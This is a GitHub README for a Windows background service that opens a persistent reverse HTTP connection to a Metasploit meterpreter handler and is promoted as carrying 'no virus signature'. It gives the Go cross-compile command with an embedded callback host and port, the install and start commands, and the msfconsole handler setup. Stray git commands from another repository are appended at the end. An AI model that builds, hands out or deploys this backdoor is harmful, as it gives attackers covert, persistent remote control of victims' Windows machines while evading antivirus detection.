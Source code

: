 ## Powershell Reverse Http

> Note: Use this program at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization

A simple windows service running on background that connects with a meterpreter session via http  with no virus signature

### Usage
First, you need [go](https://golang.org/dl/) for build the binary (duh!) and [metasploit-framework](https://github.com/rapid7/metasploit-framework) for accepts the reverse connection

```
git clone https://github.com/mauri870/powershell-reverse-http.git
cd powershell-reverse-http
go get golang.org/x/sys/windows
env GOOS=windows go build -ldflags "-X main.LHOST=10.10.10.2 -X main.LPORT=3000" -o powershell-reverse.exe
```

Change the LPORT and LHOST to match your metasploit handler

## Usage
```
powershell-reverse.exe
no command specified

usage: powershell-reverse.exe <command>
       where <command> is one of
       install, remove, debug, start, stop, restart, pause or continue.
```

After install and start, the service is always up and trying to connect on host and port specified on `exploit.go`

On the attacker machine:

```
./msfconsole --quiet
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST YOUR_IP_ADDRESS_HERE
LHOST => YOUR_IP_ADDRESS_HERE
msf exploit(handler) > set LPORT YOUR_PORT_TO_AWAIT_CONNECTION_HERE
LPORT => YOUR_PORT_TO_AWAIT_CONNECTION_HERE
msf exploit(handler) > exploit

[*] Started HTTP reverse handler on http://LHOST:LPORT
[*] Starting the payload handler... 
```
"# power"  git init git add README.md git commit -m "first commit" git remote add origin https://github.com/flipbeatz/power.git git push -u origin master
